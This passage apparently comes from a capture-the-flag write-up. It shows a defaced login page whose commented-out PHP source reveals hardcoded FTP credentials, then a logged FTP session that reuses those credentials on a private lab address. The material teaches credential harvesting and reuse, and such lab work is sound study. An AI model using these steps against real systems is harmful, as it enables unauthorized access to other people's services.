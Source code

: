 ```http
<body>
		<div id="main">
			<h1> vanakam nanba. I hacked your login page too with advanced hacking method</h1>
			<form method="POST">
			Username <input type="text" name="username" class="text" autocomplete="off" required>
			Password <input type="password" name="password" class="text" required>
			<input type="submit" name="submit" id="sub">
			</form>
			</div>
</body>
</html>




<?php
//	if (isset($_POST['submit'])) {
//		$un=$_POST['username'];
//		$pw=$_POST['password'];
//
//	if ($un=='ftpuser' && $pw=='B0ss_Pr!ncesS') {
//		echo "welcome"
//		exit();
// }
// else 
//	echo "Invalid creds"
// }
?>
```

> The source code reveal some credentials: `ftpuser:B0ss_Pr!ncesS`
{: .prompt-info }

---

# exploitation
## ftp access
Checking if the identified credentials work on the `ftp` service of the target.
```bash
$ ftp 192.168.182.95       
Connected to 192.168.182.95.
220 (vsFTPd 3.0.3)
Name (192.168.182.95:void): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
